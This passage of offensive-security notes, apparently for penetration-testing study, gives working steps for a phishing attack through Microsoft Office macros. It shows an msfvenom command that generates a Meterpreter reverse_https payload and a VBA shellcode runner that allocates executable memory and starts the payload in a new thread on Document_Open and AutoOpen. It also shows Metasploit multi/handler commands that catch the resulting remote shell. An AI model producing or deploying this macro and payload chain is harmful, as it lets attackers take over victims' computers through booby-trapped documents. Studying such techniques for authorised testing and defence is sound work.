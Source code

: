 4. Use Metasploit (`sudo msfconsole -q`) and set up a `multi-handler` with the same payload used in msfvenom.
    ```bash
    use multi/handler
    set payload windows/x64/meterpreter/reverse_https
    set LHOST tun0
    set LPORT 443
    options
    exploit
    ```

**1.2.1.2 Phishing With MS Office - VB ShellCode Runner (Method 2)**
1. Create the payload using `msfvenom`:
    ```bash
    sudo msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f vbapplication
    ```
2. Create the VB Macro
    ```vb
    Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

    Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

    Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

    Function MyMacro()
        Dim buf As Variant
        Dim addr As LongPtr
        Dim counter As Long
        Dim data As Long
        Dim res As Long
        
        buf = Array(252, 232, .....)

        addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
        
        For counter = LBound(buf) To UBound(buf)
            data = buf(counter)
            res = RtlMoveMemory(addr + counter, data, 1)
        Next counter
        
        res = CreateThread(0, 0, addr, 0, 0, 0)
    End Function

    Sub Document_Open()
        MyMacro
    End Sub

    Sub AutoOpen()
        MyMacro
    End Sub   
    ```
3. Use Metasploit (`sudo msfconsole -q`) and set up a `multi-handler` with the same payload used in msfvenom.
    ```bash
    use multi/handler
    set payload windows/meterpreter/reverse_https
    set LHOST tun0
    set LPORT 443
    set exitfunc thread
    options
    exploit
    ```
